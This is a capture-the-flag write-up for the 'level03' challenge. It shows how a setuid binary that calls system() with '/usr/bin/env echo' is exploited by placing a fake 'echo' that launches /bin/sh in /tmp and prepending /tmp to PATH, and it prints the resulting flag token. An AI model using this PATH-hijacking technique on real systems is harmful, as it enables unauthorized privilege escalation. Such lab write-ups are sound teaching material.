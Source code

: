 ## level03 writeup

When logging in as the level03 user, we can find a binary.
```shell
$ ls -la
...
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
...
```
This binary has the suid bit, which means its gonna be executed as the owner of the file, which in this case is the user flag03. \
We want to check what's in the binary. First thing that comes to mind is executing the string function on the binary.
```shell
$ strings ./level03
...
system
...
/usr/bin/env echo Exploit me.
...
```
So we can see it uses `/usr/bin/env echo Exploit Me` in the `system()` call. The basic idea is to replace echo with a shell, so we can execute binaries as flag03 (in particular the getflag binary). \
We know we can create files in /tmp and modify the PATH variable so binaries are searched first in the /tmp folder.

```shell
$ cat > /tmp/echo <<EOF
/bin/sh
EOF
$ chmod +x /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
$ # we are know in a shell with the permissions of the flag03 user
$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
